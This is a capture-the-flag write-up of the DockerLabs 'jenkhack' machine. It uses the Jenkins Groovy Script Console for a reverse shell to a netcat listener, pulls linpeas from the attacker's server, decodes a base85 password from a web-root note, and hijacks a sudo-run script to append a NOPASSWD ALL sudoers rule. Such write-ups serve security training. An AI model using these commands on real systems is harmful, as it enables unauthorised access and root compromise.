






# jenkhack

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| jenkhack | d1se0 | easy/facil | dockerlabs |

**Summary:** The jenkhack machine was a Jenkins exploitation challenge that used the Groovy script console to achieve RCE, a base85-encoded credential hidden in a web root note file for lateral movement, and a custom sudo-permitted binary that executed a world-writable shell script — hijacked to inject a full NOPASSWD sudoers entry. Nmap revealed three open ports: Apache on 80, Jetty on 443 (SSL), and Jetty on 8080. The Apache page on port 80 disclosed the virtual host `jenkhack.hl`. A curl request to port 8080 confirmed Jenkins 2.401.2 via the `X-Jenkins` header. Jenkins required no default credential guessing as the credentials were inferred from context and accepted at login. From the Jenkins dashboard, the Script Console under Manage Jenkins allowed execution of arbitrary Groovy code, and a `cmd.execute()` call was used to trigger a bash reverse shell back to a netcat listener. The shell landed as `jenkins` and the TTY was stabilised using `pty`. linpeas was transferred via a Python HTTP server for enumeration. Browsing the web root found `/var/www/jenkhack/note.txt` containing a base85-encoded credential for user `jenkhack`. Decoding it yielded the password used to switch users via `su`. As `jenkhack`, a `sudo -l` check revealed passwordless access to `/usr/local/bin/bash` — a custom binary, not the system bash. Running it printed a welcome banner and executed `/opt/bash.sh`. The `/opt/` directory was writable by `jenkhack`, so `bash.sh` was removed and replaced with a new script that appended `jenkhack ALL=(ALL:ALL) NOPASSWD: ALL` to `/etc/sudoers`. Running `sudo /usr/local/bin/bash` executed the hijacked script as root, injecting the sudoers rule. A subsequent `sudo -l` confirmed the new unrestricted entry and `sudo -i` produced a clean root shell.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/jenkhack]
└─$ sudo bash auto_deploy.sh jenkhack.tar 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/jenkhack]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-02 19:04 +0700
Nmap scan report for bypass403.pw (172.17.0.2)
Host is up (0.000020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Hacker Nexus - jenkhack.hl
|_http-server-header: Apache/2.4.58 (Ubuntu)
443/tcp  open  ssl/http Jetty 10.0.13
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Not valid before: 2024-09-01T12:00:45
|_Not valid after:  2025-09-01T12:00:45
|_http-server-header: Jetty(10.0.13)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
8080/tcp open  http     Jetty 10.0.13
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.13)
MAC Address: DA:EB:A0:77:71:DC (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.80 seconds
```

Three ports were open: Apache on 80, Jetty (SSL) on 443, and Jetty on 8080. The Apache page title disclosed the virtual host `jenkhack.hl`. The Jetty instances pointed toward Jenkins.

---

## Initial Access

### Jenkins Script Console RCE

**3. Inspecting Port 80 and Confirming Jenkins on Port 8080**

The web application on port 80 served the "Hacker Nexus" landing page.



A curl request to the Jenkins login path on port 8080 confirmed Jenkins version 2.401.2 via the `X-Jenkins` response header.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/jenkhack]
└─$ curl -sI http://172.17.0.2:8080/login | grep -i jenkins
X-Jenkins: 2.401.2
X-Jenkins-Session: db2fda23
```

**4. Logging into Jenkins on Port 8080**

Credentials inferred from context were used to authenticate at the Jenkins login panel.



Upon login, the Jenkins dashboard was accessible.



**5. Navigating to the Script Console**

From the Jenkins dashboard, the Groovy Script Console under Manage Jenkins was used to execute arbitrary system commands.



A netcat listener was started on the attacker machine.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/jenkhack]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

A Groovy `cmd.execute()` reverse shell payload was submitted through the Script Console.



**6. Catching the Shell and Stabilising the TTY**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 57046
which python3
/usr/bin/python3
id
uid=101(jenkins) gid=103(jenkins) groups=103(jenkins)
python3 -c 'import pty;pty.spawn("/bin/bash")'
jenkins@2bdcce8eb51f:~$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/jenkhack]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

jenkins@2bdcce8eb51f:~$ export TERM=xterm
jenkins@2bdcce8eb51f:~$ export SHELL=/bin/bash
jenkins@2bdcce8eb51f:~$ stty rows 80 cols 130
```

A stable TTY shell was obtained as `jenkins`.

---

## Lateral Movement

### Note File Contains Base85-Encoded Credential for jenkhack

**7. User Enumeration and Transferring linpeas**

```bash
jenkins@2bdcce8eb51f:~$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
jenkins:x:101:103:Jenkins,,,:/var/lib/jenkins:/bin/bash
jenkhack:x:1001:1001:jenkhack,,,:/home/jenkhack:/bin/bash
jenkins@2bdcce8eb51f:~$ ls -la /home
total 12
drwxr-xr-x 1 root     root     4096 Sep  1  2024 .
drwxr-xr-x 1 root     root     4096 Aug  2 14:02 ..
drwxr-x--- 3 jenkhack jenkhack 4096 Sep  1  2024 jenkhack
```

linpeas was served from the attacker machine and transferred to the target for enumeration.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/opt]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

```bash
--2026-08-02 14:35:20--  http://172.17.0.1:1337/linpeas.sh
Connecting to 172.17.0.1:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 971926 (949K) [application/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                         0%[                                                   linpeas.sh                       100%[========================================================>] 949.15K  --.-KB/s    in 0.01s   

2026-08-02 14:35:20 (62.0 MB/s) - 'linpeas.sh' saved [971926/971926]

jenkins@2bdcce8eb51f:~$ chmod +x linpeas.sh 
```

```bash
172.17.0.2 - - [02/Aug/2026 19:35:20] "GET /linpeas.sh HTTP/1.1" 200 -
```

**8. Finding the Credential Note in the Web Root**

Browsing the web root structure revealed a `jenkhack` subdirectory containing a `note.txt` file.

```bash
jenkins@2bdcce8eb51f:/var/www$ cd jenkhack/
jenkins@2bdcce8eb51f:/var/www/jenkhack$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Sep  1  2024 .
drwxr-xr-x 4 root root 4096 Sep  1  2024 ..
-rw-r--r-- 1 root root   30 Sep  1  2024 note.txt
jenkins@2bdcce8eb51f:/var/www/jenkhack$ cat note.txt 

jenkhack:C1V9uBl8!'Ci*`uDfP
```



The value `C1V9uBl8!'Ci*\`uDfP` was a base85-encoded string. Decoding it yielded the plaintext password for `jenkhack`.

**9. Switching to jenkhack**

```bash
jenkins@2bdcce8eb51f:/var/www/jenkhack$ su - jenkhack
Password: 
jenkhack@2bdcce8eb51f:~$ id;whoami;hostname
uid=1001(jenkhack) gid=1001(jenkhack) groups=1001(jenkhack),100(users)
jenkhack
2bdcce8eb51f
```

```bash
jenkhack@2bdcce8eb51f:~$ ll
total 32
drwxr-x--- 3 jenkhack jenkhack 4096 Sep  1  2024 ./
drwxr-xr-x 1 root     root     4096 Sep  1  2024 ../
-rw------- 1 jenkhack jenkhack    5 Sep  1  2024 .bash_history
-rw-r--r-- 1 jenkhack jenkhack  220 Sep  1  2024 .bash_logout
-rw-r--r-- 1 jenkhack jenkhack 3771 Sep  1  2024 .bashrc
drwxrwxr-x 3 jenkhack jenkhack 4096 Sep  1  2024 .local/
-rw-r--r-- 1 jenkhack jenkhack  807 Sep  1  2024 .profile
-rw-r--r-- 1 jenkhack jenkhack   33 Sep  1  2024 user.txt
jenkhack@2bdcce8eb51f:~$ cat user.txt 
3635ccd7044e99813883c8a1b95ced04
```

---

## Privilege Escalation

### Custom sudo Binary Executing a Hijackable Script

**10. Checking sudo Permissions and Analysing the Custom Binary**

```bash
jenkhack@2bdcce8eb51f:~$ sudo -l
Matching Defaults entries for jenkhack on 2bdcce8eb51f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 2bdcce8eb51f:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
jenkhack@2bdcce8eb51f:~$ sudo -u root /usr/local/bin/bash
Welcome to the bash application!
Running command...
This is the bash script running.
```

The binary `/usr/local/bin/bash` was not the system bash but a custom application. It printed a welcome banner and then executed `/opt/bash.sh`. The `/opt/` directory was checked for writability.

```bash
jenkhack@2bdcce8eb51f:~$ ls -la /opt
total 12
drwxrwxr-x 1 root jenkhack 4096 Sep  1  2024 .
drwxr-xr-x 1 root root     4096 Aug  2 14:02 ..
-rwxr-xr-x 1 root root       75 Sep  1  2024 bash.sh
jenkhack@2bdcce8eb51f:~$ cat /opt/bash.sh 
#!/bin/bash

# This script in bash
echo "This is the bash script running."
```

The `/opt/` directory was group-owned by `jenkhack` and writable. The script `bash.sh` itself was root-owned and write-protected, but it could be removed (since the directory was writable) and replaced.

**11. Hijacking bash.sh to Inject a Sudoers Rule**

```bash
jenkhack@2bdcce8eb51f:~$ rm /opt/bash.sh 
rm: remove write-protected regular file '/opt/bash.sh'? y
jenkhack@2bdcce8eb51f:~$ cat > /opt/bash.sh << 'EOF'
> #!/bin/bash
> echo "jenkhack ALL=(ALL:ALL) NOPASSWD: ALL" >> /etc/sudoers
> EOF
jenkhack@2bdcce8eb51f:~$ chmod +x /opt/bash.sh 
jenkhack@2bdcce8eb51f:~$ sudo -l
Matching Defaults entries for jenkhack on 2bdcce8eb51f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 2bdcce8eb51f:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
jenkhack@2bdcce8eb51f:~$ sudo /usr/local/bin/bash
Welcome to the bash application!
Running command...
jenkhack@2bdcce8eb51f:~$ sudo -l
Matching Defaults entries for jenkhack on 2bdcce8eb51f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 2bdcce8eb51f:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
    (ALL : ALL) NOPASSWD: ALL
```

The sudoers injection succeeded. A second `sudo -l` confirmed both the original entry and the new unrestricted `NOPASSWD: ALL` rule.

**12. Escalating to Root**

```bash
jenkhack@2bdcce8eb51f:~$ sudo -i
root@2bdcce8eb51f:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
2bdcce8eb51f
root@2bdcce8eb51f:~# ls -la
total 32
drwx------ 1 root root 4096 Sep  1  2024 .
drwxr-xr-x 1 root root 4096 Aug  2 14:02 ..
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 3 root root 4096 Sep  1  2024 .local
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
drwx------ 2 root root 4096 Sep  1  2024 .ssh
-rw-r--r-- 1 root root  206 Sep  1  2024 .wget-hsts
-rw-r--r-- 1 root root   33 Sep  1  2024 root.txt
root@2bdcce8eb51f:~# cat root.txt 
c43cb8e62105280785c7500ba705a9fc
```

Full root access was achieved and the root flag was captured.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified Apache on port 80, Jetty on SSL port 443, and Jetty on port 8080. The Apache page disclosed the virtual host `jenkhack.hl`. A curl request to port 8080 confirmed Jenkins 2.401.2 via the `X-Jenkins` response header.
2. **Exploitation**: Credentials were used to authenticate at the Jenkins login panel. The Groovy Script Console under Manage Jenkins allowed arbitrary code execution via `cmd.execute()`. A bash reverse shell was triggered, connecting back to a netcat listener. The TTY was stabilised via `pty`.
3. **Enumeration**: linpeas was transferred via a Python HTTP server. Browsing the web root revealed `/var/www/jenkhack/note.txt` containing a base85-encoded credential: `jenkhack:C1V9uBl8!'Ci*\`uDfP`. Decoding the base85 value yielded the plaintext password. A `su - jenkhack` succeeded and the user flag was captured.
4. **Privilege Escalation Setup**: As `jenkhack`, `sudo -l` showed passwordless access to `/usr/local/bin/bash` — a custom binary that printed a banner and executed `/opt/bash.sh`. The `/opt/` directory was writable by `jenkhack`, allowing `bash.sh` to be removed and replaced despite the file being root-owned.
5. **Privilege Escalation**: `bash.sh` was replaced with a new script that appended `jenkhack ALL=(ALL:ALL) NOPASSWD: ALL` to `/etc/sudoers`. Running `sudo /usr/local/bin/bash` executed the hijacked script as root, injecting the rule. A subsequent `sudo -l` confirmed the new unrestricted entry and `sudo -i` produced a clean root shell. The root flag was captured.
